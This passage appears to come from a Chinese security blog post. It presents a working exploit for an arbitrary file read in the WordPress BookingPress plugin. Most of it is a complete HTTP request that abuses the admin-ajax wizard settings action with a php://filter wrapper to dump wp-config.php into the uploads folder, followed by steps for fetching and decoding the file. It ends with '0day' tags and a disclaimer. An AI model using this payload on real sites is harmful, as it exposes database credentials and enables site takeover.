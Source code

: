 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYezHunMVAAL2I1L1SYmRbVQok2IRdDMLHaCiahjUibCBIF9oBKFEGUl5BnA/640?wx_fmt=png&from=appmsg "")  
  
**=========================================**  
  
**0x01中说了，这个点还能读取服务器上的任意文件，所以我们利用php伪协议即可读取到任意文件，当然，其他协议也都支持的，Payload:**  
```
POST /wp-admin/admin-ajax.php?action=bookingpress_save_lite_wizard_settings HTTP/1.1
Host: 127.0.0.1
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: wordpress_5c016e8f0f95f039102cbe8366c5c7f3=mstir%7C1729423444%7CkqwlXfoYbZLlK22F6HqgFqXz71Qp8BqJV7um5LjEflh%7Cf31bf462a5d2812adb8f06a27571e581a03fd6d8ea1a441996e2c08f7d61f21c; wp-settings-1=libraryContent%3Dbrowse%26editor%3Dhtml%26mfold%3Do; wp-settings-time-1=1729149467; wp-settings-2=mfold%3Do; wp-settings-time-2=1729169310; PHPSESSID=pmjrbj0t3jsc33felruuhn28ju; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_5c016e8f0f95f039102cbe8366c5c7f3=mstir%7C1729423444%7CkqwlXfoYbZLlK22F6HqgFqXz71Qp8BqJV7um5LjEflh%7Ca31ed3feb8769a91bbc089add323e1784bf837251197b7c1a97d467091bff4f2
Connection: close
Content-Length: 161

_wpnonce=36db33f761&wizard_data[company_fields_data][logo_img]=aaa.php&wizard_data[company_fields_data][logo]=php://filter/read=convert.base64-encode/resource=../wp-config.php
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYezA1Da3AVkyicCmaYlNfCZW5RsFl8eSsddDXtFkGxwPPFWv0xNUwiaLLNA/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYezNTyCAaS9LFTiaASpoLxdSlEHiaRzmyoBrlzzXXsOhG8ibu1XNfqUo4Xsg/640?wx_fmt=png&from=appmsg "")  
  
**访问 /wp-content/uploads/bookingpress/1729280966_aaa.php 并解码base64.**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/uicic8KPZnD5dM3eA4vuhS5c0icYAB5GYez24dPTuySV3Cib9RtO7umWxD24ughOGKbhjzfbBGLZAPgfRcSjC1Aw3A/640?wx_fmt=png&from=appmsg "")  
## 0x03 插件下载  
  
**标签:代码审计，0day，渗透测试，系统，通用，0day，闲鱼，转转**  
  
**BookingPress 源码关注公众号发送 241019 获取!**  
  
  
  
**免责声明:****文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由读者承担全部法律及连带责任，文章作者和本公众号不承担任何法律及连带责任，望周知！！!**  
  
